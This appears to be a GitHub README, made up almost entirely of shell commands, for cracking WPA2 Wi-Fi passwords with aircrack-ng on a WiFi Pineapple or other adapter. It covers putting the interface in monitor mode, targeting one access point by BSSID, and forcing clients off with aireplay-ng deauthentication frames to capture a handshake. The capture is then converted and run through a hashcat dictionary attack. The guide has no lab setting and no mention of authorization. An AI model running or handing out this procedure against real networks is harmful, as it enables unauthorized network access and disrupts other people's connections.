

# Crack_WPA2-WiFi_Pineapple_CLI
Cracking WPA2 using Aircrack-ng through WiFi Pineapple MKVII CLI

### Prerequirments :

- Aircrack-ng : `sudo apt install aircrack-ng`
- WiFi Pineapple MKVII (or any other WiFi Adapter. TIP:Whenever you’re choosing an external Wi-Fi adapter, make sure that it supports both 2.4Ghz and 5Ghz band.

My setup

### Terminal-1
  1. Detect your wireless network interface
     Run:
<pre lang="markdown">iwconfig</pre>

  2. If interface not in monitor mode Run:
<pre lang="markdown">airmon-ng start &lt;interface&gt;</pre>

  3. Capture traffic
<pre lang="markdown">airodump-ng &lt;interface&gt</pre>

  4. To set WiFi Pineapple at 5GHz Run:     
<pre lang="markdown">airmon-ng &lt;interface&gt channel 48;</pre>

  5. Capture traffic 5GHz band
     <pre lang="markdown">airodump-ng &lt;interface&gt --channel 48</pre>

### Terminal-2

  6. select target and focus on one AP on channel:
<pre lang="markdown">airodump-ng -c &lt;channel&gt; -w &lt;filename&gt; -d &lt;AP_BSSID&gt; &lt;interface&gt;</pre>

### Example:

<pre lang="markdown">airodump-ng -c2 -w capture_wpa2 -d 00:11:22:33:44:55 wlan3mon</pre>

### Explanation:
- **`-c 2`** → Specifies the Wi-Fi channel (replace with your target AP’s channel).
- **`-w capture_wpa2`** → Defines the output filename (`capture_wpa2.cap`).
- **`-d 00:11:22:33:44:55`** → Filters by target AP’s BSSID.
- **`wlan3mon`** → Your network interface in monitor mode.

Once executed, the `.cap` file will be created, which can be used for further analysis.

  

<pre lang="markdown">
sudo apt install aircrack-ng hashcat -y
</pre>

<pre lang="markdown">
ifconfig
</pre>

<pre lang="markdown">
/sbin/ifconfig
</pre>

<pre lang="markdown">
sudo airmon-ng start wlp3s0
</pre>

<pre lang="markdown">
sudo airodump-ng wlp3s0mon
</pre>

<pre lang="markdown">
sudo airodump-ng --bssid 00:11:22:33:44:55 -c 10 --write capture wlp3s0mon
</pre>

<pre lang="markdown">
sudo aireplay-ng --deauth 10 -a 00:11:22:33:44:55 wlp3s0mon
</pre>

<pre lang="markdown">
gcc cap2hccapx.c -o cap2hccapx
</pre>

<pre lang="markdown">
./cap2hccapx capture-01.cap capture.hccapx
</pre>

<pre lang="markdown">
hashcat -I
</pre>

<pre lang="markdown">
hashcat -m 2500 capture.hccapx dictionary.txt
</pre>

<pre lang="markdown">
hashcat -m 2500 capture.hccapx dictionary.txt --show
</pre>
